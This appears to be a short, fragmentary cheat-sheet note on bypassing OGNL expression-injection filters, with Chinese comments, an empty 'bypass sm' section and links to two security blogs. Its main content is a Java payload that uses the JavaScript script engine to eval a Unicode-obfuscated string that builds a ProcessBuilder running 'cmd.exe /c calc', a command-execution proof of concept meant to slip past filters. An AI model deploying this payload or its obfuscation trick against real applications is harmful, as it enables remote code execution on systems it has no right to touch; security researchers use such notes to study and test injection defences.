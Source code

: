 # OGNL bypass
```java
new javax.script.ScriptEngineManager().getEngineByName("js").eval(此处的Payload可以进行unicode编码)

new javax.script.ScriptEngineManager().getEngineByName("js").eval("new j\u0061va.lang.ProcessBuilder['(java.l\u0061ng.String[])'](['cmd.exe','/c','calc']).start()\u003B");

```
## bypass sm
参考 js的bypass
```java

```

>参考
>https://www.sec-in.com/article/753
>https://www.mi1k7ea.com/2020/03/16/OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/
